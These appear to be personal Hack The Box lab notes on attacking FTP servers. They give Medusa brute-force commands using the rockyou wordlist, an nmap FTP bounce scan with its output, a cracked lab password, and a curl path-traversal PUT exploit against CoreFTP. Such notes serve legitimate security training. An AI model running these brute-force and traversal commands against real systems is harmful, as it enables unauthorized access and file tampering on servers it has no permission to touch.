 
-network protocol, for transfer files between computers
-TCP
-`anonymous`  -u
-get or mget for multy file downloads

#### Brute Forcing with Medusa
```shell-session
AhmaDb0x@htb[/htb]$ medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp 
```
#### bounce back attack
```shell-session
AhmaDb0x@htb[/htb]$ nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-27 04:55 EDT
Resolved FTP bounce attack proxy to 10.10.110.213 (10.10.110.213).
Attempting connection to ftp://anonymous:password@10.10.110.213:21
Connected:220 (vsFTPd 3.0.3)
Login credentials accepted by FTP server!
Initiating Bounce Scan at 04:55
FTP command misalignment detected ... correcting.
Completed Bounce Scan at 04:55, 0.54s elapsed (1 total ports)
Nmap scan report for 172.17.0.2
Host is up.

PORT   STATE  SERVICE
80/tcp open http
```


```bash
medusa -U users.list -P passwords.list -h 10.129.251.175 -M ftp -n 2121

```


robin Password: 7iz4rnckjsduza7

```bash
┌──(pwn㉿kali)-[~]
└─$ medusa -u robin -P passwords.list -h 10.129.251.175 -M ftp -n 2121 -t 10 -f > ftp_credentials.txt 2>&1

```

# Latest FTP Vulnerabilities
#### CoreFTP Exploitation

```shell-session
AhmaDb0x@htb[/htb]$ curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```

